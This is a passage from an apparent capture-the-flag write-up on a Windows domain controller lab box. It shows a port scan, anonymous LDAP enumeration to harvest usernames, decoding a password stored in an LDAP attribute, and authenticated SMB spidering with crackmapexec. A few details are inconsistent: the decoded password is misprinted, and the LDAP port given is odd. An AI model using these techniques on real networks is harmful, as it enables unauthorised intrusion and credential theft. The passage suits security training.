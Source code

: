 ```bash
3269/tcp  open  tcpwrapped
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```
With LDAP open on port 2368 we checked if we could query LDAP.
```bash
ldapsearch -x -H ldap://10.10.10.182 -s base namingcontexts

Domain DC=cascade,DC=local
```
Proceeded to enumerate LDAP and gather usernames.
```bash
ldapsearch -x -H ldap://10.10.10.182 -s sub -b 'DC=cascade,DC=local' > ldap_anon

cat ldap_anon | grep sAMAccountName | awk -F": " '{print $2}' > usernames.ldap
```

Usernames.ldap
```txt
s.smith
r.thompson
j.wakefield
s.hickson
j.goodhand
a.turnbull
e.crowe
b.hanson
d.burman
j.allen
i.croft
```

Checked for any passwords stored within ldap by looking for unique values.
```bash
cat ldap_anon | sort | uniq -c | sort -nr
```

This revealed a cascadeLegacyPwd from r.thompson's user object
```base64
clk0bjVldmE=
```
Which when decoded is
```txt
rY4n53va
```

## Authenticated SMB enumeration
Listed all the files that r.thompson can view within smb
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva -M spider_plus
```
This user can view a vnc install.reg file within another user's folder.
